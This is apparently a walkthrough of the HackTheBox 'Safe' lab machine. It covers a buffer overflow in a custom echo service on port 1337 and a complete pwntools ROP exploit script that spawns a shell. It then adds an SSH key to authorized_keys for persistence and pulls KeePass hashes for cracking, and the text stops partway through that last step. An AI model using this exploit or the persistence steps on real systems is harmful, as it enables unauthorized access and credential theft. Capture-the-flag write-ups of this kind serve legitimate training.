



hackthebox Safe
Released: July 2019 / Pwned: August 21st 2019 - [+] Solved whilst Active
Safe starts with a l33t port, downloading a file from a web server and then finding a buffer overflow vulnerability on the l33t port. After exploiting the binary with ROP, you can establish persistence on the machine by adding your ssh public key to the exploited user's authorized_keys file. Lastly, a set of hashes generated from images in user's home folder get passed into john to be cracked and open up a keepass database.
Note that the binary exploitation part of this box is probably too long and over-explained.
I found it difficult to be clear, difficult and succinct without writing too much.
Summary
• Visit the website and view the source to find an exploitable binary
• Disassemble the binary to find a test function that can be used to write a pointer to /bin/sh into RDI and gain a shell
• Write a python script to exploit the binary and gain a user shell
• Establish persistence on the machine by copying your ssh public key into the user's authorized_keys file
• Use keepass2john and the images in user's home to generate hashes for the keepass database
• Crack the generated hashes using john and get 1 result
• Open MyPasswords.kdbx using the cracked password and corresponding image as the key and retrieve root's pasword
1) Nmap
My usual nmap scan - nmap -sC -sV -O -oN - ran slow on this machine. I'm not sure why :/
I ran a simple all-ports scan instead - nmap -p- 10.10.10.147
Results:
root@city64:~/ctf/safe# nmap -p- 10.10.10.147
...
Nmap scan report for 10.10.10.147
Host is up (0.060s latency).
Not shown: 65532 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
1337/tcp open waste
Nmap done: 1 IP address (1 host up) scanned in 43.13 seconds
Ports
• 22/ssh - Not of any use for the moment, but good to note for later
• 80/http - A website. Always useful to check
• 1337/waste - Something custom!
2) 1337/waste
I decided to look at 1337/waste first because it was unique.
I connected to the port via nc to investigate.
root@city64:~/ctf/safe# nc 10.10.10.147 1337
08:06:41 up 3:07, 1 user, load average: 0.00, 0.00, 0.00
hey
What do you want me to echo back? hey
root@city64:~/ctf/safe# nc 10.10.10.147 1337
08:06:47 up 3:07, 1 user, load average: 0.00, 0.00, 0.00
ls
What do you want me to echo back? ls
It looks like there's service running which prints the system's uptime and echoes back whatever we give it.
If you send enough data, like 200 As, the service won't echo back what you give it.
root@city64:~/ctf/safe# python -c 'print "A"*20' | nc 10.10.10.147 1337
08:08:49 up 3:09, 1 user, load average: 0.00, 0.00, 0.00
What do you want me to echo back? AAAAAAAAAAAAAAAAAAAA
root@city64:~/ctf/safe# python -c 'print "A"*200' | nc 10.10.10.147 1337
08:08:54 up 3:10, 1 user, load average: 0.00, 0.00, 0.00
This functionality (or lack of) hints that the binary running on port 1337 might be vulnerable to a buffer overflow.
Nothing else to do here, so I moved on to port 80.
3) 80/http
The website is a default Apache page.

Right Click > View Source will reveal a comment.

You can download the binary running on port 1337 at http://10.10.10.147/myapp.
How kind!

myapp Exploitation
With the myapp binary downloaded, you can investigate it for vulns.
Tools Used
• gdb-peda - an improved version of gdb, used to debug the binary - https://github.com/longld/peda
• pwntools - an exploit development library for python, used to connect to the remote service - http://docs.pwntools.com/en/stable/
• ropper - used to find ROP gadgets - https://github.com/sashs/Ropper
4) myapp Overflow Testing
First, you should verify whether myapp really is exploitable to a buffer overflow.
4a) Find offset to RIP
Open the binary in gdb-peda, set the follow-fork-mode to parent (so that gdb won't follow any forked processes created by the binary) and create a pattern using pattern create.
root@city64:~/ctf/safe# gdb -q myapp
Reading symbols from myapp...(no debugging symbols found)...done.
gdb-peda$ set follow-fork-mode parent
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
Run the binary and provide the cyclic (non-repeating) pattern you've created as input.
The binary will crash.
gdb-peda$ run
Starting program: /root/ctf/safe/myapp
[Detaching after fork from child process 16290]
13:47:14 up 4 days, 16:56, 1 user, load average: 0.04, 0.03, 0.06
What do you want me to echo back? AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7ffff7ed9804 (<__GI___libc_write+20>: cmp rax,0xfffffffffffff000)
RDX: 0x7ffff7fac8c0 --> 0x0
RSI: 0x405260 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA"...)
RDI: 0x0
RBP: 0x41414e4141384141 ('AA8AANAA')
RSP: 0x7fffffffe1a8 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
RIP: 0x4011ac (<main+77>: ret)
R8 : 0x7ffff7fb1500 (0x00007ffff7fb1500)
R9 : 0x0
R10: 0xfffffffffffff418
R11: 0x246
R12: 0x401070 (<_start>: xor ebp,ebp)
R13: 0x7fffffffe280 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0x4011a1 <main+66>: call 0x401030 <puts@plt>
0x4011a6 <main+71>: mov eax,0x0
0x4011ab <main+76>: leave
=> 0x4011ac <main+77>: ret
0x4011ad: nop DWORD PTR [rax]
0x4011b0 <__libc_csu_init>: push r15
0x4011b2 <__libc_csu_init+2>: mov r15,rdx
0x4011b5 <__libc_csu_init+5>: push r14
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe1a8 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0008| 0x7fffffffe1b0 ("AkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0016| 0x7fffffffe1b8 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0024| 0x7fffffffe1c0 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0032| 0x7fffffffe1c8 ("ApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0040| 0x7fffffffe1d0 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0048| 0x7fffffffe1d8 ("VAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0056| 0x7fffffffe1e0 ("AuAAXAAvAAYAAwAAZAAxAAyA")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004011ac in main ()
If this was 32-bit machine, EIP would be overwritten with a string from your cyclic pattern.
On 64-bit machines, RIP can only be overwritten if a valid 64-bit value is provided.
Whilst 64-bit registers can hold 8 bytes of data, the maximum value on 64-bit machines is 0x00007FFFFFFFFFFF.
If you want to overwrite RIP on 64-bit machines, you have to provide a 6-byte value.
Because the string from your cyclic value won't overwrite RIP (because it'll be 8 bytes long, not a valid 64-bit address), the return address will still be sat on the top of the stack (i think, correct me if I'm wrong someone).
Therefore, you can find the offset to overwrite RIP by reading the value at the top of the stack.
• x/ - examine memory
• x - display the value as hex
• g - read value in a unit size of giant words (8 bytes)
• $rsp - examine the value pointed to by RSP
gdb-peda$ x/xg $rsp
0x7fffffffe1a8: 0x414f41413941416a
gdb-peda$ pattern offset 0x414f41413941416a
4706051884014715242 found at offset: 120
4b) Test RIP Overwrite
Now that you have offset to overwrite RIP, it's a good idea to test it and write a script to gain control of RIP.
initial.py
payload = "A"*120 # offset to RIP at 120 bytes
payload += "B"*6 # overwrite RIP
print payload
Run the script and write the payload out to a text file.
root@city64:~/ctf/safe# python initial.py > initial.txt
And run the payload against the binary in gdb to test your exploit.
The program will crash and you'll see that RIP has been overwritten with 0x424242424242 - 6 Bs.
gdb-peda$ run < initial.txt
Starting program: /root/ctf/safe/myapp < initial.txt
[Detaching after fork from child process 16347]
14:03:21 up 4 days, 17:12, 1 user, load average: 0.12, 0.08, 0.05
What do you want me to echo back? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBB
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7ffff7ed9804 (<__GI___libc_write+20>: cmp rax,0xfffffffffffff000)
RDX: 0x7ffff7fac8c0 --> 0x0
RSI: 0x405260 ("What do you want me to echo back? ", 'A' <repeats 120 times>, "BBBBBB\n")
RDI: 0x0
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffe1b0 --> 0x0
RIP: 0x424242424242 ('BBBBBB')
R8 : 0x7ffff7fb1500 (0x00007ffff7fb1500)
R9 : 0x0
R10: 0xfffffffffffff418
R11: 0x246
R12: 0x401070 (<_start>: xor ebp,ebp)
R13: 0x7fffffffe280 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x424242424242
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe1b0 --> 0x0
0008| 0x7fffffffe1b8 --> 0x7fffffffe288 --> 0x7fffffffe56b ("/root/ctf/safe/myapp")
0016| 0x7fffffffe1c0 --> 0x100040000
0024| 0x7fffffffe1c8 --> 0x40115f (<main>: push rbp)
0032| 0x7fffffffe1d0 --> 0x0
0040| 0x7fffffffe1d8 --> 0xe6d37e21b5d32080
0048| 0x7fffffffe1e0 --> 0x401070 (<_start>: xor ebp,ebp)
0056| 0x7fffffffe1e8 --> 0x7fffffffe280 --> 0x1
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000424242424242 in ?? ()
Success! RIP has been overwritten.
You now know for sure that the binary has a buffer overflow vulnerability.
5) myapp Reconnaissance
Next, run some reconnaissance against the binary to gather some information on how to exploit it.
Find out:
• does the binary have any protections?
• what functions does the binary import?
• how does the binary read in assembly?
With the answers to these questions, you can figure out how to exploit the binary.
5a) Binary Protections
Open the binary in gdb-peda and run checksec.
root@city64:~/ctf/safe# gdb -q myapp
Reading symbols from myapp...(no debugging symbols found)...done.
gdb-peda$ checksec
CANARY : disabled
FORTIFY : disabled
NX : ENABLED
PIE : disabled
RELRO : Partial
There's 1 protection - NX.
NX stands for Non-Executable.
This protection renders the stack as non-executable, meaning that we can't drop shell-spawning shellcode onto the stack and execute it.
5b) Imported Functions
rabin2 will show you any functions that the binary imports.
root@city64:~/ctf/safe# rabin2 -i myapp
[Imports]
Num Vaddr Bind Type Name
1 0x00401030 GLOBAL FUNC puts
2 0x00401040 GLOBAL FUNC system
3 0x00401050 GLOBAL FUNC printf
4 0x00000000 GLOBAL FUNC __libc_start_main
5 0x00000000 WEAK NOTYPE __gmon_start__
6 0x00401060 GLOBAL FUNC gets
4 0x00000000 GLOBAL FUNC __libc_start_main
5 0x00000000 WEAK NOTYPE __gmon_start__
One go-to technique to bypass NX protection is ret2libc.
ret2libc overwrites RIP to return to a function in C's libc library, usually system(), and run a system command like system("/bin/sh") to spawn a shell.
With system() already imported into binary from libc, you don't have to go through the bother of a ret2libc attack.
Instead, you can simply use system() by referring to its virtual address - 0x00401040 GLOBAL FUNC system
This will make exploitation/spawning a shell using system() easier.
5c) Disassemble Binary
Lastly, read the assembly code of the binary using objdump.
root@city64:~/ctf/safe# objdump -M intel -d myapp
myapp: file format elf64-x86-64
...
0000000000401152 <test>:
401152: 55 push rbp
401153: 48 89 e5 mov rbp,rsp
401156: 48 89 e7 mov rdi,rsp
401159: 41 ff e5 jmp r13
40115c: 90 nop
40115d: 5d pop rbp
40115e: c3 ret
000000000040115f <main>:
40115f: 55 push rbp
401160: 48 89 e5 mov rbp,rsp
401163: 48 83 ec 70 sub rsp,0x70
401167: 48 8d 3d 9a 0e 00 00 lea rdi,[rip+0xe9a] # 402008 <_IO_stdin_used+0x8>
40116e: e8 cd fe ff ff call 401040 <system@plt>
401173: 48 8d 3d 9e 0e 00 00 lea rdi,[rip+0xe9e] # 402018 <_IO_stdin_used+0x18>
40117a: b8 00 00 00 00 mov eax,0x0
40117f: e8 cc fe ff ff call 401050 <printf@plt>
401184: 48 8d 45 90 lea rax,[rbp-0x70]
401188: be e8 03 00 00 mov esi,0x3e8
40118d: 48 89 c7 mov rdi,rax
401190: b8 00 00 00 00 mov eax,0x0
401195: e8 c6 fe ff ff call 401060 <gets@plt>
40119a: 48 8d 45 90 lea rax,[rbp-0x70]
40119e: 48 89 c7 mov rdi,rax
4011a1: e8 8a fe ff ff call 401030 <puts@plt>
4011a6: b8 00 00 00 00 mov eax,0x0
4011ab: c9 leave
4011ac: c3 ret
4011ad: 0f 1f 00 nop DWORD PTR [rax]
Even if you can't read assembly, using what you know from running the binary, you might be able to guess what the main() function is doing by reading its calls.
• call 401040 <system@plt> prints the uptime of the machine
• call 401050 <printf@plt> prints out What do you want me to echo back?
• call 401060 <gets@plt> prompts the user for input
• And call 401030 <puts@plt> prints out the user's input to the screen
The interesting function in the disassembly of myapp is test.
test never gets called by main, which was suspicious to me.
6) How to exploit myapp?
If you can read assembly comfortably (I can't), test's instructions will stand out to you as the key to exploiting this binary.
system()
With system() imported into the binary, the goal is to run system("/bin/sh") and spawn a shell.
There's no /bin/sh string available in myapp, so you have to write/create your own /bin/sh string.
How to use system()?
The system() function takes, as a parameter, a pointer to a string that it will run as a command.
It will not take a string/hex values itself.
About 64-bit Calling Conventions
On 32-bit machines, parameters for functions are placed onto the stack.
On 64-bit machines, parameters for functions are placed into registers.
The order of the registers is like this - RDI, RSI, RDX, RCX, etc.
The 1st parameter goes into RDI, the 2nd parameter in RSI, 3rd parameter... etc.
Calling system() on 64-bit Machines
To call system() on a 64-bit machine, you need to write a pointer to the string/command you want to run into RDI.
For this exploit, you want to spawn a shell.
Therefore, you'll want to pop a pointer to a /bin/sh string into RDI.
When system() is called, it will read the string pointed to by RDI (/bin/sh) and run system("/bin/sh").
You can write a pointer to a /bin/sh string using the instructions in the test function.
6a) Write /bin/sh to stack
Local Variables and the Stack
Based on the assembly code, C pseudo-code for the main() function in the myapp binary probably looks like this.
int main() {
char user_input[112];
system("/bin/uptime");
printf("What do you want me to echo back"?);
gets(user_input);
puts(user_input);
return 0;
}
gets() takes input from the user and copies it into a variable.
In the code above, gets() copies the user input into a 112 byte variable called user_input.
Functions with local variables reserve space on the stack for their variables.
Because main() has a local variable - user_input - it reserves space on the stack to store it.
You can see this at the start of the assembly code for main in the myapp binary:
000000000040115f <main>:
40115f: 55 push rbp
401160: 48 89 e5 mov rbp,rsp
401163: 48 83 ec 70 sub rsp,0x70
0x70 is 112 in decimal.
RSP points to the top of the stack.
sub rsp,0x70 takes 112 from RSP, which decreases the stack pointer by 112.
This reserves space on the stack to store the user input from gets().
Write /bin/sh to the stack
When you're prompted for user input - “What do you want to echo back?" - and overflow the buffer with 120 As, those As get written to the stack.
Instead of writing As, you could write /bin/sh\x00 (followed by As to fill the buffer).
\x00 is NULL-byte, used to signify the end of the string.
By providing /bin/sh\x00 at user input, you'll have a /bin/sh string on the stack to work with.
6b) Use test function
/bin/sh\x00 is 8 bytes long.
At user input, you write 112 bytes of As followed by /bin/sh\x00 to reach the RIP overwrite.
payload = "A"*112 # offset to RIP at 120 bytes
payload += "/bin/sh\x00" # rbp points here
The stack looks like this:
_________________
| |
| |
| |
| |
| |
| |
| | main()'s Local Variable user_input
| user_input | � 112 bytes large
| |
| |
| |
| |
| |
| |
| |
|________________|
| RBP | stack base - RBP points here
| _______________| � 8 bytes large
| ret address |
|________________| � overwrite main()'s return address to control RIP
The user_input buffer is only 112 bytes long.
You fill user_input with 112 As, and then with the 8 bytes of /bin/sh\x00 overwrite RBP.
The RBP register, which points the base of the stack, will now point to your /bin/sh\x00 string.
RBP = /bin/sh\x00
test
With /bin/sh on the stack, you can use the instructions in the test function to write a pointer to your /bin/sh string into RDI.
You need a pointer to /bin/sh in RDI for when you call system(), so that you can run system("/bin/sh").
***Assembly Notes***:
RBP currently points to your /bin/sh\x00 string on the stack.
RSP is a register that points the top of the stack.
push <register> pushes data inside <register> onto the top of the stack.
mov <register B> <register A> moves data from register A into register B.
#0000000000401152 <test>:
# 401152: 55 push rbp # push rbp (/bin/sh) to top of stack
# 401153: 48 89 e5 mov rbp,rsp # move rsp (/bin/sh) into rbp
# 401156: 48 89 e7 mov rdi,rsp # move rsp (/bin/sh) into rdi
# 401159: 41 ff e5 jmp r13 # jump to code in r13
# ...
• push rbp will push your /bin/sh string pointed to by RBP onto the top of the stack
◇ RSP now points to your /bin/sh string because it's at the top of the stack
• mov rbp, rsp moves the data in RSP (which points to /bin/sh) into RBP
• mov rdi, rsp will move the data in RSP (/bin/sh) into RDI (the register we need set-up to call system())
◇ There is now a pointer to your /bin/sh string in RDI
• jmp r13 will jump to the address in r13 and run the code there
The python exploit script looks like this so far:
from pwn import *
# ------- GADGETS -------
test_addr = p64(0x00401152)
#0000000000401152 <test>:
# 401152: 55 push rbp # push rbp (/bin/sh) to top of stack
# 401153: 48 89 e5 mov rbp,rsp # move rsp (/bin/sh) into rbp
# 401156: 48 89 e7 mov rdi,rsp # move rsp (/bin/sh) into rdi
# 401159: 41 ff e5 jmp r13 # jump to code in r13
# ...
# ------- EXPLOIT -------
payload = "/bin/sh\x00" # rbp points here
payload += "A"*112 # offset to RIP at 120 bytes
payload += test_addr # overwrite RIP
# test moves pointer to "/bin/sh" into rdi
# and jumps to r13
print payload
6c) jmp r13 system() - ROP
The jmp r13 in test causes a problem because it will jump to the address pointed to r13 and start running code there.
You want to run system(), not random code.
So that you don't run random code, you can pop the address of system() into r13.
The previous instructions willl set up RDI = <pointer /bin/sh string> for you.
Because RDI contains a pointer to /bin/sh string, the jump to system() will successfully spawn a shell.
ROP
To set up r13, you need to make use of a ROP gadget.
ROP stands for Return Oriented Programming.
ROP is a technique where you use assembly instructions already present within the program's code that end with a ret instruction - return.
For example,
pop rax; pop rcx; ret
This ROP gadget will pop a value into RAX, a value into RCX, and then return to the next address on the stack and run code there.
The ret instruction is crucial.
If the instructions above were simply
pop rax; pop rcx
You would overwrite RIP with the address of the gadget above, pop a value into RAX, pop a value into RCX, and then the program would crash.
By using sequences of assembly instructions that end in a ret, you can chain assembly code already present in the binary together and run any code you want to.
pop r13 Gadget
r13 can't be set up during test, so it needs to have data popped into it beforehand.
In that case, you need to find a ROP gadget that will pop data into r13.
On the return, you'll move to test.
I used ropper to find a pop r13 gadget.
root@city64:~/ctf/safe# ropper --file myapp --search "pop r13"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop r13
[INFO] File: myapp
0x0000000000401206: pop r13; pop r14; pop r15; ret;
There's a pop r13 gadget available at 0x00401206.
pop r14 and pop r15 are also part of the gadget.
These extra instructions don't matter because you don't need r14 or r15 for anything, so you can simply pop junk data into them until you hit the ret and can return to test.
7) Write myapp Exploit Script
At this point, you have everything you need to exploit myapp. Write your script!
Exploit Plan
1. Write 112 As followed to /bin/sh\x00 to reach the RIP offset
2. Overwrite RIP with pop r13 gadget
1) pop address of system() into r13
2) pop junk into r14
3) pop junk into r15
3. return to test function (which sets up RDI and calls system(), spawning a shell)
Exploit Script
p64 is part of pwntools. It'll convert the hex numbers (0xWhatever) into valid 64-bit values.
system()'s address was retrieved from rabin2 -i myapp.
test()'s address was retrieve from objdump -M intel -d myapp
r = remote('10.10.10.147', 1337) is part of pwntools. It'll connect to a binary running on a remote host.
r.sendline() will send the payload to the binary.
r.interactive() spawns an interactive shell and lets you interact with your newly-spawned shell.
exploit.py
from pwn import *
# ***NOTE***: exploit wont' work inside of gdb, no idea why
# it also won't work without pwntools interactive(), no idea why
# ------- GADGETS -------
pop_r13_14_15_ret = p64(0x00401206) # pop r13; pop r14; pop r15; ret;
system_addr = p64(0x00401040)
test_addr = p64(0x00401152)
#0000000000401152 <test>:
# 401152: 55 push rbp # push rbp (/bin/sh) to top of stack
# 401153: 48 89 e5 mov rbp,rsp # move rsp (/bin/sh) into rbp
# 401156: 48 89 e7 mov rdi,rsp # move rsp (/bin/sh) into rdi
# 401159: 41 ff e5 jmp r13 # jump to code in r13
# ...
# ------- EXPLOIT -------
payload = "A"*112 # offset to RIP at 120 bytes
payload += "/bin/sh\x00" # rbp points here
payload += pop_r13_14_15_ret # overwrite RIP
payload += system_addr # pop system() addr into r13
payload += "C"*8 # pop junk into r14
payload += "D"*8 # pop junk into r15
payload += test_addr # moves pointer to "/bin/sh" into rdi
# and jumps to r13 - system()
r = remote('10.10.10.147', 1337)
r.sendline(payload)
r.interactive()
#print payload
8) Exploit myapp
Exploit this thing, finally.
root@city64:~/ctf/safe# python exploit.py
[+] Opening connection to 10.10.10.147 on port 1337: Done
[*] Switching to interactive mode
12:50:59 up 17 min, 0 users, load average: 0.00, 0.00, 0.00
$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth)
$ cd home
$ ls -alh
total 12K
drwxr-xr-x 3 root root 4.0K May 13 08:34 .
drwxr-xr-x 22 root root 4.0K May 13 08:32 ..
drwxr-xr-x 3 user user 4.0K May 13 11:18 user
$ cd user
$ ls
...
user.txt
$ cat user.txt
7a29ee9...
9) SSH Persistence
Secure a permanent connection to user by creating an authorized_keys file and adding your ssh public key to it.
Generate an ssh key if you don't have one - ssh-keygen -t rsa -b 4096
And retrieve your public key from /root/.ssh/id_rsa.pub - cat /root/.ssh/id_rsa.pub
On your exploit shell, create an authorized_keys file and echo your public key into it.
$ cd /home/user/.ssh
$ touch authorized_keys
$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQDubnsite6+BZra+1yAChYHV4ar8P0vkke1IWlZLwGP85bThoKe+pICmD15nweBXA4Rp5UMfJLBzBtXMN+QhVXBvkzAzTHeOIFAxBY/VE6FSBOTGYs+Q77Hnwdt7gIqqmXmUTpOwM0bPxnJTAh6L7lP9D+k+PK060BwmAmiPRHLyKa0KTbIRilRQZB4G8Fb9DOAweXr+r8d0Bw7/rUD3tUfSO2qcyuh2D7yQbCrwj1orYcj9r1ApYdPAZtqDmKknMtVGFjUVBIoti9iVZ6DD75lfRHclyqChgKDt2d7D0nDfTED2PaaoEG6vmGfHp51cNA21Fdh71mR1gE5T9V2IoCFujN7Ls7WSHn+K+q0s4m2VMgMYe1GT9+dxKIkYrqIs72m5Qt2GA8CarPatG2ZQ109/KZc9p9so7lpTJlxbiQg58CkwpFIBP0uXj9CHMPnG7D5Cr3eaz8sU3egyflT4YaXx1PB2IdrACorukDtgDpxKWRVFduyf7qLhR9Yjsr358cgaBRh89V+RImmhVrioQOx9brl70NbNO/jgav7ACo8/P0wk2WzDGB6W05y+pagAAhu4zdsksXyB/VImOZ4Sx9dzJTyBUnjIWIbKDmS+m+H28Vkm2rzLYefSxPNMBtuMquvCuZV15mHMx97MDRF/qxeNiKUpFG2kX0FF7eYCI2BVw== root@city64" >> authorized_keys
You can now ssh into the target as user using your ssh private key.
root@city64:~/ctf/safe# ssh user@10.10.10.147 -i /root/.ssh/id_rsa
...
user@safe:~$
Priv-Esc root
10) Priv-Esc
There aren't the tools to investigate any of these files on the target system.
I copied the contents of user's home folder to my attacking machine using scp.
root@city64:~/ctf/safe# scp -r user@10.10.10.147:/home/user . -i /root/.ssh/id_rsa.pub
/root/.ssh/id_rsa.pub: Not a directory
root@city64:~/ctf/safe/user# scp -i /root/.ssh/id_rsa.pub -r user@10.10.10.147:/home/user .
IMG_0547.JPG 100% 2470KB 1.5MB/s 00:01
IMG_0545.JPG 100% 1863KB 2.9MB/s 00:00
IMG_0548.JPG 100% 2858KB 2.9MB/s 00:00
myapp 100% 16KB 275.9KB/s 00:00
authorized_keys 100% 737 18.4KB/s 00:00
MyPasswords.kdbx 100% 2446 44.1KB/s 00:00
scp: /home/user/.bash_history: not a regular file
.bashrc 100% 3526 68.6KB/s 00:00
.bash_logout 100% 220 5.4KB/s 00:00
IMG_0552.JPG 100% 1099KB 2.5MB/s 00:00
.profile 100% 675 16.6KB/s 00:00
IMG_0546.JPG 100% 1872KB 2.4MB/s 00:00
IMG_0553.JPG 100% 1060KB 2.5MB/s 00:00
user.txt 100% 33 0.8KB/s 00:00
root@city64:~/ctf/safe# cd user
root@city64:~/ctf/safe/user# ls
IMG_0545.JPG IMG_0547.JPG IMG_0552.JPG myapp user.txt
IMG_0546.JPG IMG_0548.JPG IMG_0553.JPG MyPasswords.kdbx
MyPasswords.kbdx is a KeePass database.
I investigated the img files' strings for passwords, but didn't find anything.
strings -n 12 IMG_*
To open a KeePass database, the user can choose to require both a password and a key file.
Considering there's nothing useful in the images, one of them could be a key file.
11) keepass2john
You can extract/generate keepass hashes to be cracked with john using keypass2john, and providing a key file and the database.
root@city64:~/ctf/safe/user# keepass2john
Usage: keepass2john [-k <keyfile>] <.kdbx database(s)>
I ran keepass2john with no img key plus each of the img files against the database to create a hashes.txt file containing all the computed hashes.
root@city64:~/ctf/safe/user# keepass2john MyPasswords.kdbx > hashes.txt
root@city64:~/ctf/safe/user# keepass2john -k IMG_0545.JPG MyPasswords.kdbx >> hashes.txt
root@city64:~/ctf/safe/user# keepass2john -k IMG_0546.JPG MyPasswords.kdbx >> hashes.txt
root@city64:~/ctf/safe/user# keepass2john -k IMG_0547.JPG MyPasswords.kdbx >> hashes.txt
root@city64:~/ctf/safe/user# keepass2john -k IMG_0548.JPG MyPasswords.kdbx >> hashes.txt
root@city64:~/ctf/safe/user# keepass2john -k IMG_0552.JPG MyPasswords.kdbx >> hashes.txt
root@city64:~/ctf/safe/user# keepass2john -k IMG_0553.JPG MyPasswords.kdbx >> hashes.txt
Each of the entries is known as MyPassword, so I edited the file in nano and appended the name of the image to its corresponding hash. This way I could tell which image's hash had been cracked via the output from john.
root@city64:~/ctf/safe/user# nano hashes.txt
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b$...
